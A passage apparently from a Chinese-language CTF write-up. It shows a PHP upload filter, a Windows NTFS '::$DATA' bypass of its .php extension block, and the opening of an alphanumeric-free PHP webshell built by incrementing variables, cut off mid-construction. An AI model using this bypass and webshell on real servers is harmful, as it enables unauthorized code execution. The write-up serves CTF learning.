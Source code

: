 ```
    $BlackExts = array("php");
    $ext = explode(".", $_FILES["file"]["name"]);
    $exts = trim(end($ext));
    $file_content = file_get_contents($_FILES["file"]["tmp_name"]);

    if(!preg_match('/[a-z0-9;~^`&|]/is',$file_content)  && 
        !in_array($exts, $BlackExts) && 
        !preg_match('/\.\./',$_FILES["file"]["name"])) {
          return true;
    }
    return false;
}
?>

<html>
<head>
<meta charset="utf-8">
<title>upload</title>
</head>
<body>

<form action="index.php" method="post" enctype="multipart/form-data">
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="submit">
</form>

</body>
</html> 
```

###### 由于`Check()`函数的过滤，我们不能使用普通的字符，并且不能上传后缀为`.php`的文件，不过由于服务器是`windows`因此我们可以通过NTFS流的方式绕过后缀名的限制`::$DATA`，例如下面的文件名：

```
test.php::$DATA
```

###### 参考无字母数字webshell之提高篇（(https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)）来构造我们的无字母的shell。

```
<?=$_=[]?>
<?=$_=@"$_"?>
<?= $_=$_['!'=='@']?>
<?=$__=$_?>
<?=$__++?>
<?=$__++?>
<?=$__++?>
<?=$__++?>
<?=$__++?>
<?=$__++?>
<?=$__++?>
<?=$__++?>
<?=$__++?>
<?=$__++?>
<?=$__++?>
<?=$__++?>
<?=$__++?>
<?=$__++?>
<?=$__++?>
<?=$__++?>
<?=$__++?>
<?=$__++?>
<?=$___=$__?>
```